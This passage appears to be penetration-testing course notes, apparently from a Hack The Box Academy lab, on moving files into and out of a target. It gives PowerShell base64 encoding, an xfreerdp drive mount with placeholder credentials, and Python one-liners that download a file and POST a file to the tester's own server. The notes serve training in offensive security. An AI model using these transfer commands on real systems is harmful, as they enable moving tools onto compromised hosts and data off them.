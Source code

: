    ```powershell
   [Convert]::ToBase64String((Get-Content -path "[PATH]" -Encoding byte))
   ```

2. Check MD5 hash to check later if the procedure was successsfull

   ```powershell
   Get-FileHash "[PATH]" -Algorithm MD5 | select Hash	
   ```

3. Copy paste point 1. and decode in your machine

   ```bash
   echo [STRING] | base64 -d > hosts
   ```

4. Check if the procedure was correct by comparing with 2.:

   ```bash
   md5sum hosts
   ```

### RDP

If copying with `xfreerdp` doesn't work:

- Mount a Linux folder

  ```bash
  xfreerdp /v:[IP] /d:[DOMAIN] /u:[USER] /p:[PASSWD] /drive:linux,/home/plaintext/htb/academy/filetransfer
  ```

-  To access the directory, we can connect to `\\tsclient\`, allowing to transfer files

### Programming languages

##### Python 

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("[LINK]", "[FILE]")'
```

**Upload:** 

1. Start a python server

   ```bash
   python3 -m uploadserver
   ```

2. Upload:

   ```bash
   python3 -c 'import requests;requests.post("[MY URL]",files={"files":open("[FILE]","rb")})'
   ```

You can also use `python2.7`

Notice that the `LINK` should include the path including the file.

##### php
